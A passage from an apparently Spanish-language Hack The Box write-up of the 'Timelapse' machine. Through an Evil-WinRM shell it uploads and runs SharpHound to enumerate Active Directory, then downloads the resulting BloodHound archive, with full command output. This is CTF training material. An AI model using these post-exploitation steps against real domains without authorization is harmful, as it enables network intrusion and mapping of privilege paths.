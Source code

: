```php
*Evil-WinRM* PS C:\files> upload SharpHound.exe

Info: Uploading /home/b0ysie7e/seven/hackthebox/maquinas/Timelapse/content/winrm_backup/SharpHound.exe to C:\files\SharpHound.exe                                                          

Data: 1220608 bytes of 1220608 bytes copied

Info: Upload successful!  
```

Luego ejecutaremos el `SharpHound.exe`

```php
*Evil-WinRM* PS C:\files> .\SharpHound.exe -c all
2024-03-06T16:28:18.2803823-08:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-03-06T16:28:18.3116109-08:00|INFORMATION|Initializing SharpHound at 4:28 PM on 3/6/2024
2024-03-06T16:28:18.5772346-08:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-03-06T16:28:18.8272790-08:00|INFORMATION|Beginning LDAP search for timelapse.htb
2024-03-06T16:28:18.9053716-08:00|INFORMATION|Producer has finished, closing LDAP channel
2024-03-06T16:28:18.9053716-08:00|INFORMATION|LDAP channel closed, waiting for consumers
2024-03-06T16:28:48.9307374-08:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 36 MB RAM
2024-03-06T16:29:00.3157834-08:00|INFORMATION|Consumers finished, closing output channel
2024-03-06T16:29:00.3470371-08:00|INFORMATION|Output channel closed, waiting for output task to complete
Closing writers
2024-03-06T16:29:00.5657925-08:00|INFORMATION|Status: 112 objects finished (+112 2.731707)/s -- Using 41 MB RAM
2024-03-06T16:29:00.5657925-08:00|INFORMATION|Enumeration finished in 00:00:41.7557855
2024-03-06T16:29:00.6907886-08:00|INFORMATION|SharpHound Enumeration Completed at 4:29 PM on 3/6/2024! Happy Graphing!

```

Luego de ejecutar SharpHound, podremos visualizar un archivo `.zip` el cual nos servirá.

![20240306113105.png](20240306113105.png)

Descargamos el `.zip`

 ```php
 *Evil-WinRM* PS C:\files> download 20240306162818_BloodHound.zip
Info: Downloading C:\files\20240306162818_BloodHound.zip to 20240306162818_BloodHound.zip
Info: Download successful!

```
